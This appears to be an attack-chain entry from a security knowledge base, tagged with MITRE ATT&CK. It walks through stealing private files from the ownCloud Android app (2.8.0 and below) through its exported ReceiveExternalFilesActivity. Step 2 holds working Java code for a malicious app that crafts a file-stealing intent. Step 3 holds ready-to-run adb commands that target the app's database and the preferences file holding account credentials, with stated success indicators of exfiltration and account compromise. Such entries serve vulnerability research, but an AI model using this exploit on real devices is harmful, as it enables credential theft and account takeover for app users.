

---
tags:
  - android
  - owncloud
  - information-disclosure
  - intent-abuse
  - file-theft
  - credential-theft
type: attack_chain
tools:
  - '[[tools/ADB-Android-Debug-Bridge]]'
tactics:
  - '[[Collection]]'
verified: false
platforms:
  - Android
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Exported-Activity-in-ownCloud-App]]'
  - '[[procedures/Craft-Malicious-Intent-for-Internal-File-Access]]'
  - '[[procedures/Send-Intent-to-Steal-Sensitive-Data]]'
step_count: 3
techniques:
  - '[[Data from Local System]]'
  - '[[Unsecured Credentials]]'
updated_at: '2025-12-14T17:24:45.289Z'
description: >-
  Multi-stage attack exploiting the exported ReceiveExternalFilesActivity in the
  ownCloud Android app to access and steal sensitive files from the app's
  private data directory, leading to account compromise.
skill_level: intermediate
impact_level: high
id: 23b1e817-83ea-47c7-a9bd-c8809aba0e08
validated: true
mitre_tactics:
  - '[[Collection]]'
mitre_techniques:
  - '[[Data from Local System]]'
  - '[[Unsecured Credentials]]'
---
# Exploit ownCloud Android App Exported Activity to Steal Protected Files

The vulnerability in the ownCloud Android app (versions 2.8.0 and below) allows an attacker to steal protected files from the app's private data directory (/data/data/com.owncloud.android/) by exploiting the exported ReceiveExternalFilesActivity. This activity accepts file URIs without proper path validation, enabling access to internal files via alternative paths like /data/user/0/. The attack can be carried out by malware or another app sending a crafted intent, potentially leading to the exfiltration of databases (e.g., filelist with file history) and preferences (e.g., account credentials), resulting in full account compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ADB-Android-Debug-Bridge]]

### Target Environment

- Android device or emulator with ownCloud app installed (version 2.8.0 or below)
- USB debugging enabled on the device
- ADB access to the device

### Initial Access Requirements

- Physical or ADB access to the Android device
- No root required, but another app or ADB can initiate the intent
- ownCloud app must be installed and running

## Detailed Attack Procedures

### Step 1: Identify Exported Activity
procedure: [[procedures/Identify-Exported-Activity-in-ownCloud-App]]

**Objective**: Analyze the ownCloud Android app to locate the exported ReceiveExternalFilesActivity that handles incoming file intents without validation.

**Instructions**: Decompile or inspect the app's manifest and code to confirm the activity is exported and processes android.intent.action.SEND with android.intent.extra.STREAM URIs.

**Expected Output**: Confirmation of com.owncloud.android.ui.activity.ReceiveExternalFilesActivity as exported.

**Success Indicators**:
- Activity identified in app manifest
- Handles file URIs without path checks

### Step 2: Craft Malicious Intent
procedure: [[procedures/Craft-Malicious-Intent-for-Internal-File-Access]]

**Objective**: Create an intent targeting sensitive internal files using equivalent paths to bypass any implicit restrictions.

**Instructions**: Prepare a file URI pointing to internal data, such as the filelist database or preferences XML. Use paths like file:///data/user/0/com.owncloud.android/databases/filelist and include Intent.FLAG_GRANT_READ_URI_PERMISSION.

For example, in a malicious app, execute the following Java code using [[commands/create-malicious-send-intent-java]]:

```java
StrictMode.VmPolicy.Builder builder = new StrictMode.VmPolicy.Builder();
StrictMode.setVmPolicy(builder.build());
Intent intent = new Intent("android.intent.action.SEND");
intent.setClassName("com.owncloud.android", "com.owncloud.android.ui.activity.ReceiveExternalFilesActivity");
intent.setType("*/*");
intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent.putExtra("android.intent.extra.STREAM", Uri.parse("file:///data/user/0/com.owncloud.android/databases/filelist"));
startActivity(intent);
```

**Expected Output**: Intent crafted and ready to send, granting read access to the internal file.

**Success Indicators**:
- URI resolves to private directory
- Permissions granted for access

### Step 3: Send Intent to Access File
procedure: [[procedures/Send-Intent-to-Steal-Sensitive-Data]]

**Objective**: Launch the activity with the crafted intent to force the app to read and potentially expose or upload the sensitive file.

**Instructions**: Use ADB to send the intent. For the filelist database, run [[commands/adb-send-intent-to-filelist-db]]:

```bash
adb shell am start -n com.owncloud.android/.ui.activity.ReceiveExternalFilesActivity -t "text/plain" --grant-read-uri-permission -a "android.intent.action.SEND" --eu "android.intent.extra.STREAM" "file:///data/user/0/com.owncloud.android/databases/filelist"
```

For preferences, use [[commands/adb-send-intent-to-preferences-xml]]:

```bash
adb shell am start -n com.owncloud.android/.ui.activity.ReceiveExternalFilesActivity -t "text/plain" --grant-read-uri-permission -a "android.intent.action.SEND" --eu "android.intent.extra.STREAM" "file:///data/data/./com.owncloud.android/shared_prefs/com.owncloud.android_preferences.xml"
```

Monitor the activity launch and check for file processing or upload attempts.

**Expected Output**: Activity starts, processes the internal file, and may upload its contents to the attacker's controlled endpoint.

**Success Indicators**:
- Activity launches without errors
- File contents are read or exfiltrated
- Credentials or database data obtained

## Attack Chain Summary

### Key Achievements

1. Identification of the vulnerable exported activity
2. Bypassing path validation to access private app data
3. Successful theft of sensitive files leading to account compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Data from Local System]] Data from Local System
- [[Unsecured Credentials]] Unsecured Credentials

### MITRE ATT&CK Tactics

- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
